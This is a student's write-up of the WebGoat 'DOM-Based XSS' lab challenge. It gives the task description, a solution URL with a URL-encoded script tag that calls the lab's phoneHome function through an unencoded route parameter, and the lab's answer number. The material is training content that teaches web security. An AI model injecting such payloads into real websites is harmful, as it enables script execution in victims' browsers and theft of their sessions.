

# Challenge name: Try It! DOM-Based XSS

### Challenge Description
Some attacks are "blind." Fortunately, you have the server running here, so you can tell if you are successful. Use the route you just found and see if you can use it to reflect a parameter from the route without encoding to execute an internal function in WebGoat. The function you want to execute is:

**webgoat.customjs.phoneHome()**

Sure, you could use console/debug to trigger it, but you need to trigger it via a URL in a new tab.

Once you trigger it, a subsequent response will come to your browser’s console with a random number. Put that random number below.

### My solution
- Go to test router `192.168.10.1:4040/WebGoat/start.mvc#test/`
- If you add anythings parameter like `http://192.168.10.1:4040/WebGoat/start.mvc#test/XSS%20Attack`
- In this page will print `test:<Your parameter>`
- I'm using script tag to parameter ``
- Full URL is:
`192.168.10.1:4040/WebGoat/start.mvc#test/%3Cscript%3Ewebgoat.customjs.phoneHome()%3C%2Fscript%3E`
- Open console Dev tools and look at response

- Answer is the random number `-1103334663`